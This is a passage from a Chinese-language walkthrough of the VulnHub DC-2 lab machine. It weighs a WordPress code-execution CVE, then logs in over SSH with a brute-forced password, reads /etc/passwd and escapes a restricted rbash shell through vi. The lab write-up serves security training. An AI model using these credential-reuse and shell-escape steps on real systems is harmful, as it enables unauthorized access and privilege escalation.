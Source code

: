 我看了一下,大部分需要认证,并且都是 XSS 之类的,靶机这环境根本没用,有一个 WordPress 3.7-5.0 (except 4.9.9) - Authenticated Code Execution 可以试一试,反正也有账号

根据信息,CVE 编号为 CVE-2019-8942、CVE-2019-8943,MSF 里正好有模块,不过其实是不好利用的,因为这个漏洞是通过文件上传造成的,而 jerry 和 tom 都无法上传,只有 admin 有权限修改上传点



---

# flag3

既然打不下来 wordpress ,就换一个,联想到端口扫描出的 7744 SSH 服务,这里可以作为一个入口

使用刚才的爆破出来的两个账号密码去尝试连接一下ssh

爆破结果
```
Username : tom
Password : parturient
```

直接登录
```bash
ssh tom@192.168.197.146 -p 7744
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC2/9.png)

看来是个受限制的 shell 环境,rbash,使用自动补全命令 compgen -c

可以看到我们能使用 less 和 vi ,less 查看 flag3
```
Poor old Tom is always running after Jerry. Perhaps he should su for all the stress he causes.
```
机翻
```
可怜的老 Tom 总是追随 Jerry。 也许他应该承受自己造成的所有压力。
```

这里提示了之前爆破出的2个 web 用户,会不会 linux 也有这2个用户?查看 passwd 文件
```bash
less /etc/passwd
```



可见 jerry 用户存在,那么下面就是 rbash 逃逸-->提权

---

# flag4

使用 vi 进行逃逸
```bash
vi

:set shell=/bin/sh
:shell

Desc:
    :set shell=/bin/sh：这个命令将 Vi 编辑器的 shell 设
    置为 /bin/sh，这意味着在 Vi 编辑器中执行外部 shell 命
    令时将使用 /bin/sh。
    :shell：这个命令会启动一个新的 shell，让你可以在 Vi
     编辑器之外执行命令。在这个新的 shell 中，你可以执行任
     何标准的 shell 命令，然后通过输入 exit 或者按下  
     Ctrl+D 返回到 Vi 编辑器。
```
